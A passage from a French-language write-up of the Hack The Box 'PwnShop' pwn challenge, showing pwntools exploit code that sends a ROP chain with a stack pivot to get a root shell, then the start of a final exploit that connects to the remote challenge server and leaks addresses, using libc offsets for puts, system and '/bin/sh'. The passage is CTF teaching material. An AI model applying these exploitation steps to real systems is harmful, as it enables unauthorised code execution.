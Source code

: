 ```python
	payload = padding_to_rop_chain + rop_chain + padding_to_stack_pivot + sub_rsp

	io.sendafter('Enter details: ', payload)

	io.interactive()

if __name__ == '__main__':
	main()
```

Si nous l’exécutons sur notre machine l’exploit nous donne les accès root de la machine.

![Untitled](PwnShop%20%5BPwn%5D%20Challenge%20895ef805e6ed4a98889545f333366461/Untitled%209.png)

Le problème si nous essayons d’exécuter notre exploit marchant sur notre machine sur la machine distante est que nous n’avons pas le même alloue-ment de mémoire.

Nous n’aurons pas les même adresse et nous ne pourrons pas devenir root.

Pour devenir root sur leur machine nous pouvons utiliser les adresse que nous arrivons à leak et utiliser le site [https://libc.blukat.me/](https://libc.blukat.me/)

En mettant l’adresse que nous avons eu sur le site :

![Untitled](PwnShop%20%5BPwn%5D%20Challenge%20895ef805e6ed4a98889545f333366461/Untitled%2010.png)

Nous avons des matches et nous pouvons tester avec leurs adresse.

Dans cette version de HTB le serveur est un ubuntu11.2_amd64

On cherche donc les adresse dans le dictionnaire :

`puts` ; `system` ; `str_bin_sh`

Et nous eomplaçons de notre code les ancienne valeurs

L’Exploit Final :

```python
#!/usr/bin/env python3

from pwn import *

def main():
	io = remote("188.166.172.38", 30613)

	#STEP 1 Leak binary address

	io.sendlineafter('\n> ', '2')
	io.sendlineafter('What do you wish to sell? ', '')
	leak_padding = b'1'*8
	io.sendafter('How much do you want for it? ', leak_padding)
```